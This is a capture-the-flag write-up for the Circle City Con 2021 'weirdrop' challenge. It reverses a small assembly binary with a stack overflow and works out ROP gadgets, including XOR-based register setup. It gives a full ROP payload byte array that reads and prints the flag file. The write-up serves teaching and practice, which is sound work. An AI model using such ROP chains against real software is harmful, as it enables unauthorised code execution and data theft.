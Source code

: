 ## weirdrop (Circle City Con 2021)

I didn't participate in the CTF, but I noticed that there is no writeup for
this  
challenge, so I decided to address that. :D

## Exploitable Service

We get the exploitable service binary.

```bash  
[joey@gibson] file weird-rop  
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically
linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped  
```  
Neato! We got a 64-bit ELF. The binary is statically compiled and not  
stripped, making reversing and exploitation much easier for us.

## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,  
written in assembly. Here's the program entry:

```asm  
┌ 21: entry0 ();  
│           0x00401154      e887ffffff     call loc.vuln  
│           0x00401159      48c7c03c0000.  mov rax, 0x3c  
│           0x00401160      48c7c7000000.  mov rdi, 0  
└           0x00401167      0f05           syscall  
```  
So far so good - the program calls `vuln()` then calls the `exit` system call  
with the exit code `0`. If you are looking for an easy reference for the ABI  
[bookmark  
this](https://chromium.googlesource.com/chromiumos/docs/+/HEAD/constants/syscalls.md).

Let's take a look at `vuln()`:  
```asm  
│           0x004010e0      55             push rbp  
│           0x004010e1      4889e5         mov rbp, rsp  
│           0x004010e4      4883ec10       sub rsp, 0x10  
│           0x004010e8      48c7c0020000.  mov rax, 2  
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ;
"/flag.txt"  
│           0x004010f7      48c7c6020000.  mov rsi, 2  
│           0x004010fe      48c7c2000000.  mov rdx, 0  
│           0x00401105      0f05           syscall  
```  
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't
actually  
using libc, I'm just using libc functions to make the reversed code easier to  
look at. You can find the definitions of flags like `O_RDWR` in `/usr/include`  
(e.g. `/usr/include/asm-generic/fcntl.h`).

```asm  
│           0x00401107      4883c030       add rax, 0x30  
│           0x0040110b      880424         mov byte [rsp], al  
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa  
│           0x00401113      48c7c0010000.  mov rax, 1  
│           0x0040111a      48c7c7010000.  mov rdi, 1  
│           0x00401121      4889e6         mov rsi, rsp  
│           0x00401124      48c7c2020000.  mov rdx, 2  
│           0x0040112b      0f05           syscall  
```

At this point the `rax` register holds the file descriptor returned by the  
`open` syscall. The program adds `0x30` to the file descriptor, which is a  
low-tech way of turning a digit into its ASCII representation (`0x30`  
represents zero and so on). We store this value on the stack and append `\n`
to  
it. The program then outputs this number to the standard output:  
`write(STDOUT_FILENO, stack_pointer, 2);`

```asm  
│           0x0040112d      48c7c0000000.  mov rax, 0  
│           0x00401134      48c7c7000000.  mov rdi, 0  
│           0x0040113b      4889e6         mov rsi, rsp  
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8  
│           0x00401145      0f05           syscall  
│           0x00401147      48c7c7000000.  mov rdi, 0  
│           0x0040114e      4883c410       add rsp, 0x10  
│           0x00401152      5d             pop rbp  
└           0x00401153      c3             ret  
```  
Reverses to this:  
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes into the stack, nulls out  
the `rdi` register, does some cleanup, and returns. Obviously this is the  
vulnerability - we can overwrite the return address on the stack and gain  
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that  
easy 300 points right? Let's see here...

```asm  
 0x00401000                 5e  pop rsi  
 0x00401001                 c3  ret

 0x00401002     48c7c000000000  mov rax, 0  
 0x00401009                 c3  ret  
```

Cool cool.

```asm  
 0x0040100a     48c7c001000000  mov rax, 1  
 0x00401011                 c3  ret

 0x004010db               0f05  syscall  
 0x004010dd                 c3  ret  
```

Nice!

```asm  
 0x0040109b     4881f7cd030000  xor rdi, 0x3cd  
 0x004010a2                 c3  ret

 0x004010d3     4881f79a020000  xor rdi, 0x29a  
 0x004010da                 c3  ret  
```  
Uhm...

```asm  
 0x004010cb     4881f7a3010000  xor rdi, 0x1a3  
 0x004010d2                 c3  ret

 0x004010c3     4881f798010000  xor rdi, 0x198  
 0x004010ca                 c3  ret  
```  
... okay?

26 `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation plan I chose was to take advantage of the open file  
descriptor, telegraphed to us by the service, read the contents of the flag  
file, and simply write it to the standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`  
for the `write` and `read` system calls respectively. We even have a gadget to  
load the standard output file descriptor (`1`) into `rdi`.

However we still need to put the flag file descriptor in `rdi` and there is no  
clear gadget candidate for this. We just got a bunch of awkward XOR gadgets
and  
that means it's time some XOR math!

I don't know about you, but I'm pretty lazy, so I just wrote a Python  
script to bruteforce the needed XOR gadgets. (Note that since the `rdi`  
register is nulled out, the first XOR gadget will just put the immediate value  
into the register). The script permutes over every possible combination of XOR  
gadgets and breaks when the value is found. `permute.py` is the script I wrote  
for this task. Take a look - nothing too fancy there.

The flag file descriptor is always `5`, so we can just run `permute.py` once
to  
figure out the gadgets we need.

_If you are confused by the file descriptor being `5` and not `3` you are  
not alone - it's weird. This is likely due to a little bit more code on the  
server side that we don't get to see. (I think the challenge would have been  
more interesting if the file descriptor was somewhat random. That way, we'd
have  
to dynamically determine which gadgets to use)._

```  
[joey@gibson]$ ./permute.py 5  
0x56 0x53  
```  
Great - so the XOR gadgets that have these two operands is what we need. We  
now have all of the key elements of our exploit. This is the ROP chain I  
came up with:

```C  
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {  
   0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!  
   0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!  
   0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!  
   0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53  
   0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56  
   0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx  
   0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value  
   0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0  
   0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall  
   0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1  
   0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1  
   0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall  
   0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,  
//  ...  
   0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,  
   0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,  
};  
```

First 24 bytes are the filler for the stack - recall that the function
subtracts  
`0x10` from the stack pointer and pops a register. The first two gadets are
the XOR  
gadgets we've determined with `permute.py`. The next gadget pops `0x19` into
`rdx`,  
which is the length of our read. Finally, we shove the `read` syscall number
into  
`rax` and call it. Then we simply use the gadgets to load the `write` syscall
number  
and place stdout file decriptor (`1`) as its first argument. The other two
arguments  
in registers `rsi` and `rdx` remain the same throughout the exploit. That's
it!

```bash  
[joey@gibson]$ ./exploit  
CCC{math_is_hard_1234897}  
```

Original writeup
(https://github.com/v-rzh/ctf_writeups/tree/main/circlecitycon21_weirdrop).